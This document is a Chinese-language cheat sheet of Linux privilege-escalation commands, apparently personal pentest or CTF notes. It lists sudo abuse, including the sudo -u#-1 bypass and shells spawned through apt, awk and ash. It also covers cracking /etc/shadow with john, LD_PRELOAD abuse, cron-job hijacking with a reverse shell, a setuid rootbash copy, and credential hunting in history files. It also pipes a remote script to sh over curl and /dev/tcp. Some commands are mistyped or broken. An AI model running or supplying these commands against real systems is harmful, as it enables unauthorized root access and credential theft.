 ### 查看当前用户
cl

### 查看当前目录
pwd

### 枚举
sudo -l

### 切换用户
sudo -u jack /bin/bash
sudo -u#10000 /bin/bash

### 修改交互更好的bash环境
python -c "import pty;pty.spawn('/bin/bash')"

### 搜索
grep -R -i pass /home/* 2>dev/null

### sudo -u提权
sudo -V | grep version 
'Sudo version 1.7.4p4'
sudo -u#-1 /bin/bash

### sudo apt(apt-get)提权
sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash

### sudo apache2提权
sudo apache2 -f /etc/shadow
vim shadow_root
sudo john shadow_root --wordlist=/usr/share/wordlists/rockyou.txt

### sudo ash提权
sudo ash

### sudo awk提权
sudo awk 'BEGIN {system("/bin/bash)}'

### shadow 可读可写
ls -liah /etc/shadow
cat /etc/passwd
cat etc/shadow
cat /etc/shadow | grep ':\$'
vim hash
cat vim
sudo john  --wordlist=/usr/share/wordlists/rockyou.txt hash

mkpasswd -m sha512 admin
vim /etc/shadow 

### passwd 可读可写
openssl passwd admin
vim etc/passwd

### sudo环境变量提权
'env_reset,env_keep+=LD_PRELOAD'
vim 共享库
编译
sudo LD_PRELOAD=/home/user/共享库 find

### 自动任务提权
cat /etc/crontab

'***** root overwrite.sh'
'***** root /usr/local/bin/compress.sh'

locate overwrite.sh
ls -lish /../../overwrite.sh
cat /../../overwrite.sh

kali@kali:sudo nc -lvnp 4444

vim /../../overwrite.sh
反弹shell
----------------------------
vim overwrite.sh
提权脚本
/tmp/rootbash -p

### suid提权
find / -perm -u=s -type f 2>dev/null

/usr/local/bin/suid-so
usr/local/bin/suid-env
usr/local/bin/suid-env2

searchsploit xxx

### 密码和密钥历史文件提权
history
cat ～/.*history | less
ls -liah
cat .viminfo
cat myvpn.ovpn

ssh

### 备份shadow/passwd
cp /etc/shadow /tmp/shadow.bak
cp /etc/passwd /tmp/passwd.bak

### 查看历史记录
history

### 内核提权
uname -a
'内核版本过低'
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
##### 无curl
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo nc -lvnp 80 < linpeas.sh
cat < /dev/tcp/192.168.204.129/80 | sh

### doas

### 提取
cat pass | awk -F' ' '{print $2}'          

### mysql提权思路
mysql -u root
show databases;
use mysql
show tables;
select * from user;
describe user;


chomd 600 file

locate password | more
find / -name root_key 2> /dev/null

### 提权脚本
"#! /bin/bash

cp /bin/bash /tmp/rootbash
chomd +xs /tmp/rootbash"

/tmp/rootbash -p

### 提权大全
https://gtfobins.github.io/
